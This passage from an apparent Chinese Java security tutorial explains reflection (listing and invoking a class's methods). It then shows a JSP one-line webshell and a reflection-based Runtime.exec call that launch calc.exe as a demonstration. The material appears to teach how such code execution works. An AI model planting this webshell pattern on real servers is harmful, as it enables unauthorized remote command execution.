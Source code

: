 ```java
    public void testMethod()throws Exception{
        Person al = new Person("lilinfeng",26);

        //0.首先获取al对象的Class类
        Class clazz = al.getClass();
        //1.获取方法
        //  1.1 获取取clazz对应类中的所有方法
        //     不能获取private方法,且获取从父类继承来的所有方法
        Method[] methods = clazz.getMethods();
        for(Method method:methods){
            System.out.print(" "+method.getName());
        }
        System.out.println();

        //  1.2.获取所有方法，包括私有方法
        //  所有声明的方法，都可以获取到，且只获取当前类的方法
        methods = clazz.getDeclaredMethods();
        for(Method method:methods){
            System.out.print(" "+method.getName());
        }
        System.out.println();

        //	1.3.按照名称、参数类型获取特定的方法
        Method method = clazz.getDeclaredMethod("setName", String.class);
        System.out.println(" "+method);
        method = clazz.getDeclaredMethod("setAge", int.class);
        System.out.println(" "+method);


        //2.执行方法
        //  invoke第一个参数表示执行哪个对象的方法，剩下的参数是执行方法时需要传入的参数
        Object obje = clazz.newInstance();
        method.invoke(obje,20);
        System.out.println(" Age modified during running: "+((Person)obje).getAge());
    }
}
```

运行测试代码后的结果如下：

![](4.png)

利用反射方式我们可以改写经典的jsp一句话木马，执行后就可以看到计算器的弹出：

```jsp
// 执行cmd命令的jsp木马，其实就是java里代码执行的写法
<% Runtime.getRuntime().exec("calc.exe"); %>
```

```java
// 用反射方式实现代码执行功能
public void cmd_exec()throws Exception{
    String cmd ="calc.exe";
    // 获取getRuntime()方法，无参数调用
    Class ax = Class.forName("java.lang.Runtime");
    Method md =ax.getDeclaredMethod("getRuntime",new Class[]{});
    Object tmp = md.invoke(null);

    // 获取exec(String s)方法，将cmd入参调用
    Class bx = Class.forName("java.lang.Runtime");
    Method mb = bx.getDeclaredMethod("exec",String.class);
    mb.invoke(tmp, cmd);
}
```
